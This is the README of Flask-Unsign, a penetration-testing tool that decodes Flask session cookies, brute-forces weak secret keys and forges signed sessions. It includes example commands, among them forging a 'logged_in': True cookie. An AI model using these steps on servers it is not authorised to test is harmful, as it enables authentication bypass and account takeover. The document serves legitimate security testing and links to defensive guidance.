 # Flask Unsign
[![Build Status](https://travis-ci.org/Paradoxis/Flask-Unsign.svg?branch=master)](https://travis-ci.org/Paradoxis/Flask-Unsign)
[![PyPI version](https://badge.fury.io/py/flask-unsign.svg)](https://badge.fury.io/py/flask-unsign)
[![codecov](https://codecov.io/gh/Paradoxis/Flask-Unsign/branch/master/graph/badge.svg)](https://codecov.io/gh/Paradoxis/Flask-Unsign)

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask  application by guessing secret keys.
For the standalone wordlist component, please visit the [flask-unsign-wordlist](https://github.com/Paradoxis/Flask-Unsign-Wordlist) repository.

## Installation
To install the application, simply use pip:

```
$ pip install flask-unsign[wordlist]
```

If you only want to install the core code, omit the `[wordlist]` suffix:

``` 
$ pip install flask-unsign
```

To install the tool for development purposes, run the following command (after downloading a copy):

```
$ pip install -e .[test]
```

## Usage

To get an overview of all possible options, simply call flask-unsign without 
any arguments like so:

``` 
$ flask-unsign
```

### Obtaining & Decoding Session Cookies
Due to the fact that Flask cookies are **signed** and **not encrypted**, it's 
possible to locally decode the session data. For this, you can use the `--decode` 
argument.

Session cookies can be obtained by inspecting your HTTP requests using a proxy 
like  Burp Proxy, using your browser's network inspector or using a browser 
extension to view/change your cookies. By default, Flask uses the session name
`"session"`. 

```
$ flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
{'logged_in': False}
```

You can also use Flask-Unsign's automatic session grabbing functionality by 
passing the `--server` argument, instead of the `--cookie` argument. *Do note 
however, **that not all web pages might return a session**, so be sure to pass an
url which does.*

``` 
$ flask-unsign --decode --server 'https://www.example.com/login'
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8
{'logged_in': False}
```

### Unsigning (Brute Forcing Secret Keys)
After obtaining a sample session cookie, you'll be able to attempt to brute-force 
the server's secret key. If you're lucky, this might be set to something easy to 
guess, or if it's been found online, it might be in one of your wordlists. For 
this, you can use the `--unsign` argument.

``` 
$ flask-unsign --unsign --cookie < cookie.txt
[*] Session decodes to: {'logged_in': False}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 351 attempts
'CHANGEME'
```

### Signing (Session Manipulation)
Once you've obtained the server's secret key, you'll be able to craft your own 
custom session data. For this, you can use the `--sign` argument.

``` 
$ flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
eyJsb2dnZWRfaW4iOnRydWV9.XDuW-g.cPCkFmmeB7qNIcN-ReiN72r0hvU
``` 

## Troubleshooting

* **I found a secret key, but my crafted sessions don't work!**
    * It might be possible that your target server uses an older version of 
      [itsdangerous](https://github.com/pallets/itsdangerous). Due to 
      [an issue](https://github.com/pallets/itsdangerous/issues/46) with timed 
      sessions, the timestamp generation algorithm was changed. 
      To generate an older signature, try using the `--legacy` option.
* **My wordlist doesn't work**
    * Wordlists expect to be newline delimited 
      [python strings](https://docs.python.org/3/library/stdtypes.html#str) 
      (meaning you need to encapsulate them in quotes), this is so that 
      binary strings can easily be stored in a newline format. If you don't want 
      this, you can disable this feature by passing the `--no-literal-eval` 
      argument.


## How it works
If you're wondering how exactly this works, refer to my 
[blog post](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce) 
which explains this in great detail, including a guide on how to protect your own server from this attack.

## License
MIT License

Copyright (c) 2019 Luke Paris (Paradoxis)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
